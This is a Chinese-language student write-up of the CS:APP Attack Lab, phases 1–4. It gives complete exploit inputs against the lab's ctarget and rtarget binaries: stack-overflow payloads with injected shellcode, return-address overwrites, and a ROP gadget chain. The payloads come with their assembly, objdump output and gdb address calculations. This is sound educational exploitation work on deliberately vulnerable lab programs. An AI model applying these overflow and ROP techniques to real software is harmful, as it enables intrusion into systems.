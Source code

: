 # Attacklab

做到这个lab才发现有writeup。

## Part I: Code Injection Attacks

通过注入恶意代码攻击CTARGET

### phase_1

目标是通过注入实现调用touch1函数。

先用objdump -d把汇编代码搞出来，查看getbuf和test函数开了多大的栈空间。我这里的getbuf开的是0x28，那就构造一个40个字节的输入数据先填满它，再构造一个8字节的数据覆盖test函数在栈里的位置，程序就会执行那8个字节指向位置的代码了。

这里要我们执行touch1函数，在汇编代码里查看其对应字节是00000000004017c0，注意要改成小端法表示，加到那40个字节后面即可。

随后`./hex2raw -i touch1.txt | ./ctarget -q`即完成phase_1。

### phase_2

目标是通过注入代码实现调用touch2并把参数设置成自己的cookie(我的cookie是0x59b997fa）。

注入的代码中不能含有call和jmp指令，因此要调用touch2函数，只好先将touch2函数的地址压入栈中，随后借助ret指令执行。

因此要注入的代码如下

```c
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

如何注入？首先将上述代码保存为touch2.s，通过gcc touch2.s -c 命令将其编译但不链接，生成touch2.o文件。随后通过objdump touch2.o -d 即可得到上述汇编代码对应的字节码

```shell
root@YJMSTR-Alienware17:/mnt/c/csapp/attacklab/target1# objdump -d touch2.o

touch2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

我们要的是`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3`.

随后根据上述数据构造48字节的输入数据，前40个字节包含我们的攻击代码，最后8个字节覆盖原先栈中的返回地址，使其指向我们注入的代码的起始地址。

可以在gdb中通过单步调试和layout reg获取%rsp的值，用于计算我们注入的代码的起始地址。在getbuf函数打个断点，当程序运行到这个断点时，%rsp的值为 0x5561dca0，再单步执行一步，把它减去0x28，即为我们输入的字节码存放的起始地址0x5561dc78 。由于x86-64的linux系统是小端法表示，需要将其写成78 dc 61 55 00 00 00 00.

最终我们的输入文件touch2.txt中的内容如下

```assembly
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
```

执行命令`./hex2raw -i touch2.txt | ./ctarget -q `，即完成phase_2.

### phase_3

writeup中给出了hexmatch函数和touch3函数的c代码，其中hexmatch函数比较unsigned类型的一个参数和char* 指向的字符串的16进制表示是否相同。而touch3在调用hexmatch来比较cookie和传入的字符串参数sval。

我们的目标是通过注入代码调用touch3并将cookie作为字符串形式的参数传入。

我的cookie是0x59b997fa，按照writeup中的要求应写为8个从高位到低位排序的16进制数（不含前导0x），即对应的字节码为`35 39 62 39 39 37 66 61`。而c语言中字符串以'\0'结尾，因此在上述字节码的结尾还需要加入一个`00`，最终cookie对应的字符串参数的字节码为`35 39 62 39 39 37 66 61 00`.

注意到`When functions hexmatch and strncmp are called, they push data onto the stack, overwriting
portions of memory that held the buffer used by getbuf. ` 我们用getbuf()的栈帧就不太合适了，考虑把字符串存在更高的位置，使用test()的栈帧。将字符串作为参数传递时，寄存器中存放的是字符串的地址，此处我们使用了test栈帧中的地址。

getbuf被调用后的栈长这样

```assembly
test对应的栈帧 {
	
	返回地址{}
}
getbuf的栈帧 {
	输入的字节码（从下往上存）{}
}
```

返回地址中要存放我们输入的字节码对应的起始地址，%rdi要被设置为字符串的存放地址，由于上述原因，字符串存放在test对应栈帧中比较安全，因此我们在填充完返回地址后加上字符串对应的字节码，字符串对应的存放地址即为getbuf调用前一条指令时rsp指向的地址，在本机是0x5561dca8。

与phase_2类似，要注入的代码如下

```
movq	$0x5561dca8, %rdi
pushq	$0x4018fa
ret
```

objdump -d 得

```assembly
root@YJMSTR-Alienware17:/mnt/c/csapp/attacklab/target1# objdump touch3.o -d

touch3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

对应的字节码是`48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00 48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00` ,将其保存为touch3.txt，输入`./hex2raw -i touch3.txt | ./ctarget -q`即通过phase_3.

## Part II: Return-Oriented Programming

RTARGET使用了栈随机化，并将栈在内存中所占部分标记为不可执行，这使得在CTARGET中使用的攻击方法不适用于RTARGET。本部分需要我们使用程序中已有的指令进行攻击。

`The strategy with ROP is to identify byte sequences within an existing program
that consist of one or more instructions followed by the instruction ret.Such a segment is referred to as a gadget.`

意思是，一段以ret指令结尾的代码被称为gadget。我们可以将栈中的返回地址用若干个gadget的地址覆盖，这样这些gadget的代码就会被依次执行，通过恰当的gadget组合，能够实现我们的攻击。

我们的目标是在提供给我们的gadget farm中找出有用的gadget来实现phase_2和phase_3中的攻击。

### phase_4

要求：通过gadget构建包含以下指令的解答：movq，popq，ret，nop。并且只能用x86-64的前八个寄存器

原先我们要注入的代码如下

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

由于cookie没有出现在代码中，我们只好先将cookie注入到栈中，再通过popq指令将其存放至寄存器中。

那么需要执行的指令如下：

```assembly
popq	%rax
ret
movq	%rax, %rdi
ret
```

栈长这样

```c
test{
    touch2
    gadget2(movq %rax, %rdi)的地址
    cookie
    返回地址{
        gadget1(popq %rax)的地址
    }
}
getbuf{
    填满0x28个字节
}
```

构造的输入数据就是0x28个字节+gadget1 + cookie + gadget2

去gadget farm中找找popq %rax和movq %rax, %rdi对应的gadget，查writeup末尾的表知popq %rax 对应的字节是58，我们找58 c3对应的指令的地址就行。

但找了一圈还是没找到，只能换个寄存器试试或者找找有没有中间跟着90的指令（对应的是nop）

在汇编代码中找到了

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

58 90 c3 正好是我们要的，因此gadget1对应的地址是`0x4019ab`.由于是小端法表示，要写成`ab 19 40 00 00 00 00 00`

接下来要把cookie写入栈中，因此后面接的是 `fa 97 b9 59 00 00 00 00 `。

然后找movq  %rax, %rdi，查表知对应的字节码是48 89 c7，同理找一个含有49 89 c7的或是有多余nop的地址就行。这里我找的是

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

对应的字节码是`c5 19 40 00 00 00 00 00 `

最后还要让程序执行touch2，因此还需要加上字节码`ec 17 40 00 00 00 00 00 `

最终要注入的字节是`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ab 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 c5 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00`

 





